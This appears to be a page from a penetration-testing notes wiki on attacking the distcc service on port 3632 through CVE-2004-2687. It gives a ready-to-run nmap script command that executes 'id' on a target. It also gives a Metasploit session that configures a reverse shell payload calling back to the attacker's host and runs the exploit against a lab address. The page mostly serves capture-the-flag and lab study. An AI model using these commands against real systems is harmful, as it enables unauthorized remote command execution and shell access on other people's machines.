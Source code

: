 # 3632 - DISTCC

## Information

[`distcc`](https://www.distcc.org/) is a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution.

## Exploitation

Based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687).

{% tabs %}
{% tab title="Nmap" %}
{% code overflow="wrap" %}
```bash
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```
{% endtab %}
{% endtabs %}

For an example of exploiting `distcc` see [Lame](../../boxes/easy/lame.md).
